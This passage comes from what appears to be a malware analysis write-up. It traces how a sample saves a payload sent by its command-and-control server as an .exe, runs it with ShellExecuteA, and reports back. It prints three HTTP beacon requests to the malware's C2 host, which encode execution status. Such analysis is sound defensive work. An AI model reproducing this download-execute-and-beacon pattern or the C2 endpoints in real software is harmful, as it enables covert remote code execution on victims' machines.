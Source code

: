 Once the directory is created, it will concatenate the payload name with the extension *.exe*.  After this, it will write the first byte *M* manually, then write the rest of the payload sent from the C2 server to disk, ignoring the first 0xf65 bytes of data sent.

It will then make the following request to let the C2 server know the payload is being executed.

```http
GET /VcvNbtgRrPopqSD/SzWvcxuer/sDeRcEwwQaAsSN.php?txt=DN-SZxxZpayload.vbsZxxZMALWARE-PCmalware HTTP/1.1
Host:subscribe.tomcruefrshsvc.com
Connection: close
```

Once this has been sent to the C2 server, it will finally execute the payload using *[shell32.ShellExecuteA](https://docs.microsoft.com/en-us/windows/win32/api/shellapi/nf-shellapi-shellexecutea)*.

![execute-payload](/images/6.png)
*Figure 7: Executing Payload with [shell32.ShellExecuteA](https://docs.microsoft.com/en-us/windows/win32/api/shellapi/nf-shellapi-shellexecutea)*

After the payload has been executed, it will check to see if the processes was created successfully. This feature of course has timing issues for additional payloads sent by the C2 server that do not run in an infinite loop. 😅

If the payload process is running it will send the following request to the C2 server.

```http
GET /VcvNbtgRrPopqSD/SzWvcxuer/sDeRcEwwQaAsSN.php?txt=SZxxZpayloadZxxZMALWARE-PCmalware HTTP/1.1
Host:subscribe.tomcruefrshsvc.com
Connection: close
```

If the payload process is not running, it will send the following request to the C2 server.

```http
GET /VcvNbtgRrPopqSD/SzWvcxuer/sDeRcEwwQaAsSN.php?txt=RN_EZxxZpayloadZxxZMALWARE-PCmalware HTTP/1.1
Host:subscribe.tomcruefrshsvc.com
Connection: close
```
